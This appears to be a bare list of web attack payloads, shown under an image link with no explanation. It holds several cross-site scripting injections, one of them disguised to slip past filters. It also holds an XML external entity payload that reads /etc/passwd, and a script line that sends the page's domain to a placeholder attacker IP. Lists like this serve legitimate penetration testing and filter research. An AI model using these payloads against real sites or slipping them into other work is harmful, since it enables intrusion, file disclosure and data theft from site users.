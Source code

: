 <img src=x onerror=alert(document.domain)>
<img src=x onerror=fetch('http://{yourip}/'+document.domain);>
<svg/onload=prompt(document.domain);>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>
-->""/>Hacked</script><deTailS open x=">" ontoggle=(co\u006efirm)``>
